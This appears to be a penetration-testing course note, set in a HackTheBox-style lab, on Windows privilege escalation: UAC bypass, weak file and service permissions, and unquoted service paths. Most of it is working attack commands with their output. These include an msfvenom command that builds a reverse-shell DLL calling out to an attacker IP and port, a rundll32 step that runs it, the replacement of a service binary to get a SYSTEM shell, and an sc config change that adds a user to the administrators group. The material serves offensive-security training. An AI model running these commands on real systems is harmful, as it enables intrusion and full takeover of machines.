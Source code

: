 # Attacking the OS

## **User Account Control**

[User Account Control (UAC)](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works) is a feature that enables a consent prompt for elevated activities.

Bypassing UAC

[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

* `whoami /priv` → reviewing user privileges
* `C:\\htb> net localgroup administrators` → confirm we are admin group member.

```
C:\\htb> REG QUERY HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\ /v EnableLUA

HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System
    EnableLUA    REG_DWORD    0x1
```

**Confirming UAC is Enabled**

```powershell
PS C:\\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

Current build version of windows is `14393`

<figure><img src="../.gitbook/assets/Untitled (5) (1).png" alt=""><figcaption></figcaption></figure>

looking at the github we can see technique number 54 matches.

This method targets  `SystemPropertiesAdvanced.exe`

Component is `srrstr.dll`

#### **Generating Malicious srrstr.dll DLL**

* `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll`

#### **Running the DLL**

* `C:\\htb> rundll32 shell32.dll,Control_RunDLL C:\\Users\\sarah\\AppData\\Local\\Microsoft\\WindowsApps\\srrstr.dll`

We should have a elevated shell that shows our privileges are available and can be enabled if needed.

## **Weak Permissions**

## **Permissive File System ACLs**

* `PS C:\\htb> .\\SharpUp.exe audit` → running  [SharpUp](https://github.com/GhostPack/SharpUp/) to check for service binaries suffering from weak ACLs.

```powershell
PS C:\\htb> .\\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===

=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\\Program Files (x86)\\PCProtect\\SecurityService.exe"

  <SNIP>

```

From the result we can see  `PC Security Management Service`, which executes the `SecurityService.exe` binary when started.

```powershell
PS C:\\htb> icacls "C:\\Program Files (x86)\\PCProtect\\SecurityService.exe"

C:\\Program Files (x86)\\PCProtect\\SecurityService.exe BUILTIN\\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\\SYSTEM:(I)(F)
                                                     BUILTIN\\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Using [icacls](https://ss64.com/nt/icacls.html) we can verify the vulnerability and see that the `EVERYONE` and `BUILTIN\\Users` groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.

```
C:\\htb> cmd /c copy /Y SecurityService.exe "C:\\Program Files (x86)\\PCProtect\\SecurityService.exe"
C:\\htb> sc start SecurityService
```

now we can replace original binary with malicious binary generated with msfvenom and get reverse shell as SYSTEM.

## **Weak Service Permissions**

```
C:\\htb> SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===

=== Modifiable Services ===

  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\\Program Files (x86)\\Windscribe\\WindscribeService.exe"
```

Looking at the sharpup result we can see WindscribeService has modifiable service.

#### **Checking Permissions with** [**AccessChk**](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

```
C:\\htb> accesschk.exe /accepteula -quvcw WindscribeService

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\\Authenticated Users
        SERVICE_ALL_ACCESS
```

from the output we can see, Authenticate Users (i.e all the users accounts that have been authenticated) have Read and Write Permission

lets query the service

```bash
C:\\htb> sc qc WindscribeService
```

Then change the Service Binary Path

```
C:\\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```

then stop and start the service as:

* `C:\\htb> sc stop WindscribeService`
* `C:\\htb> sc start WindscribeService`

looking at the groups, we can see we are added

* `C:\\htb> net localgroup administrators`

## **Unquoted Service Path**

`C:\\Program Files (x86)\\System Explorer\\service\\SystemExplorerService64.exe`

if quote is not present, the order of execution occurs as;

* `C:\\Program`
* `C:\\Program Files`
* `C:\\Program Files (x86)\\System`
* `C:\\Program Files (x86)\\System Explorer\\service\\SystemExplorerService64`

So, if we have access to any of the folder before the actual exe file is present, we can add malicious code there.

* C:\Program.exe → we rename our malicious exe to program.exe and put it in C: drive

We can search for Unquoted Service using `PowerUp.ps1` ‣

* `Import-Module .\\PowerUp.ps1`
* `Get-UnquotedService`

or we can search manually using this command

```
C:\\htb> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\\windows\\\\" | findstr /i /v """
GVFS.Service                                                                        GVFS.Service                              C:\\Program Files\\GVFS\\GVFS.Service.exe                                                 Auto
System Explorer Service                                                             SystemExplorerHelpService                 C:\\Program Files (x86)\\System Explorer\\service\\SystemExplorerService64.exe             Auto
WindscribeService                                                                   WindscribeService                         C:\\Program Files (x86)\\Windscribe\\WindscribeService.exe                                  Auto
```

## **Vulnerable Services**

search for the installed apps and look for app/services that stands out. Search if the service/app is vulnerable to some kind of exploit

## **Kernel Exploit**

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

